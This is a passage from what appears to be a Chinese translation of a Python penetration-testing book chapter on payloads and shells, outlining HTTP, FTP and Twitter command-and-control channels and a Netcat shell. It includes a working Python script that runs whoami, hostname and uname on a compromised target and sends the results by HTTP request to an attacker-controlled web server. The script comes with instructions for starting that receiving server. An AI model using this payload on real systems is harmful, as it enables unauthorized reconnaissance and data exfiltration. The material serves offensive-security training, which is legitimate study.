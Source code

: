 # 第八章：负载和 Shell

在本章中，我们将涵盖以下主题：

+   通过 HTTP 请求提取数据

+   创建一个 HTTP C2

+   创建 FTP C2

+   创建 Twitter C2

+   创建一个简单的 Netcat shell

# 介绍

在本章中，我们将讨论在 Python 中创建反向 shell 和负载的过程。一旦在 Linux 或 Mac 系统上识别出上传漏洞，Python 负载就处于下一步的甜蜜点。它们易于制作或定制以匹配特定系统，具有清晰的功能，最重要的是，几乎所有的 Mac 和 Linux 系统默认都安装了 Python 2.7。

# 通过 HTTP 请求提取数据

我们将要创建的第一个脚本将使用非常简单的技术从目标服务器中提取数据。有三个基本步骤：在目标上运行命令，通过 HTTP 请求将输出传输给攻击者，并查看结果。

## 准备就绪

此示例需要一个 Web 服务器，该服务器可在攻击者一侧访问，以便接收来自目标的 HTTP 请求。幸运的是，Python 有一种非常简单的方法来启动 Web 服务器：

```py
$ Python –m SimpleHTTPServer

```

这将在端口`8000`上启动一个 HTTP Web 服务器，提供当前目录中的任何文件。它接收到的任何请求都将直接打印到控制台，这是一种非常快速获取数据的方法，因此是此脚本的一个很好的补充。

## 如何做…

这是一个将在服务器上运行各种命令并通过 Web 请求传输输出的脚本：

```py
import requests
import urllib
import subprocess
from subprocess import PIPE, STDOUT

commands = ['whoami','hostname','uname']
out = {}

for command in commands:
    try:
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
    except:
        pass

requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```
